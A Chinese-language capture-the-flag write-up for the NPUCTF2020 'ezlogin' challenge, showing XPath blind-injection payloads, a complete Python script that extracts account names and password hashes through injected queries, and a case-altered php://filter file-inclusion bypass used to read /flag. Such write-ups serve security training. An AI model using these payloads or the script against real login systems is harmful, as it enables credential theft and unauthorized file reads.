





# NPUCTF2020-ezlogin

参考博客：https://blog.csdn.net/qq_63701832/article/details/129777163

首先打开页面。



先查看网页源码，然后查看main.js

```
 var data = "<username>"+username+"</username>"+"<password>"+password+"</password>"+"<token>"+token+"</token>"; 
    $.ajax({
        type: "POST",
        url: "login.php",
        contentType: "application/xml",
        data: data,
        anysc: false,
        success: function (result, status, xhr) {
          if(result == '成功'){
            window.location.href = 'admin.php';  
          }
          $(".msg").text(result);
          
        },
        error: function (XMLHttpRequest,textStatus,errorThrown) {
            $(".msg").text(errorThrown + ':' + textStatus);
        }
    }); 
```

直接访问admin.php会被重定向到index.php

提交后抓包试试

看到

```
X-Requested-With: XMLHttpRequest
Content-Type: application/xml
```

直接能猜到XXE或者是Xpath，这里是xpath


## Xpath盲注

尝试一下万能密码，回显非法操作



判断节点数测试

```
'or count(/)=2  or ''='     ###根节点数量为2
'or count(/)=1  or ''='     ###根节点数量为1
```





发现正确的时候会返回非法操作，错误时会显示用户名或密码错误，明显存在盲注。

抓包看看提交的内容编写payload

```
<username>'or substring(name(/*[1]), {X}, 1)='{Y}'  or ''='</username><password>1</password><token>{token}</token>    //这个playload会返回第一个节点的名称
```

```
在<username>里面的{X}中的X是一个变量，它指的是查询的元素X个字符，Y也是一个变量，是指我们猜测的字符，如果X=Y那么就会返回true，对应的我们的题目就会返回“非法操作！”
要注意的是，因为页面会不断的刷新，这个token的值也会一直变化，所以我们要保证每次请求数据都要拿到最新的token，name函数返回的是这个节点的元素名称。
```

去前端拿到token，生成正则

```
find = re.compile(r'<input type="hidden" id="token" value="(.*?)" />',re.S)
```



xpath盲注脚本

```
import requests
import re
import time
 
session = requests.session()
url = "http://d892dbc8-6dca-4922-b353-a9322a234bc0.node4.buuoj.cn:81/"
chars = "abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ"
head = {
    'Content-Type': 'application/xml',
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36"
        }
find = re.compile(r'<input type="hidden" id="token" value="(.*?)" />',re.S)
result = ""
#猜测根节点名称
payload_1 = "<username>'or substring(name(/*[1]), {}, 1)='{}'  or ''='</username><password>1</password><token>{}</token>"
#猜测子节点名称
payload_2 = "<username>'or substring(name(/root/*[1]), {}, 1)='{}'  or ''='</username><password>1</password><token>{}</token>"
#猜测accounts的节点
payload_3 ="<username>'or substring(name(/root/accounts/*[1]), {}, 1)='{}'  or ''='</username><password>1</password><token>{}</token>"
#猜测user节点
payload_4 ="<username>'or substring(name(/root/accounts/user/*[3]), {}, 1)='{}'  or ''='</username><password>1</password><token>{}</token>"
#跑用户名和密码
payload_username ="<username>'or substring(/root/accounts/user[2]/username/text(), {}, 1)='{}'  or ''='</username><password>1</password><token>{}</token>"
payload_password ="<username>'or substring(/root/accounts/user[2]/password/text(), {}, 1)='{}'  or ''='</username><password>1</password><token>{}</token>"
 
def get_token():     #获取token的函数
    resp = session.get(url=url)  #如果在这里用headers会得到超时的界面
    token = find.findall(resp.text)[0]
    #print(token)
    return token
 
for x in range(1,100):
    for char in chars:
        time.sleep(0.2)
        token = get_token()
        playload = payload_password.format(x, char, token)   #根据上面的playload来改
        #print(playload)
        resp = session.post(url=url,headers=head, data=playload)
        #print(resp.text)
        if "非法操作" in resp.text:
            result += char
            print(result)
            break
    if "用户名或密码错误" in resp.text:
        break
 
print(result)
```

全部跑出来之后构造完整结构应该是这样的

```
<root>
      <accounts>
            <user>
                  <id></id>
                  <username>guster</username>
                  <password>e10adc3949ba59abbe56e057f20f883e</password>
            </user>
            <user>
                  <id></id>
                  <username>adm1n</username>
                  <password>cf7414b5bdb2e65ee43083f4ddbc4d9f</password>
            </user>
      </accounts>
</root>
```

MD解密`cf7414b5bdb2e65ee43083f4ddbc4d9f`得到`gtfly123`

[MD5 在線免費解密 MD5、SHA1、MySQL、NTLM、SHA256、SHA512、Wordpress、Bcrypt 的雜湊](https://hashes.com/zh/decrypt/hash)

然后登录

查看源码发现信息

```
Welcome!
ZmxhZyBpcyBpbiAvZmxhZwo=

#flag is in /flag
```

这时发现url`http://c083027c-5819-4f9d-87f4-27b256122bec.node5.buuoj.cn:81/admin.php?file=welcome`

这里应该存在文件包含漏洞。

尝试

```
/admin.php?file=/flag
?file=file:///flag
```

但是回显"返回的页面中含有敏感内容!"

尝试使用伪协议

```
php://filter/convert.base64-encode/resource=/flag
```

还是回显"nonono!"，还是被拦截

使用大小写绕过

```
?file=PHP://filter/convert.Base64-Encode/resource=/flag
```

然后查看源码得到base64编码，解码后就是flag

```
ZmxhZ3tiNTc0MzM0ZC0yYmM1LTRhYWMtYTE4Zi0zZTA4NTVmZmQzYjB9Cg==
```


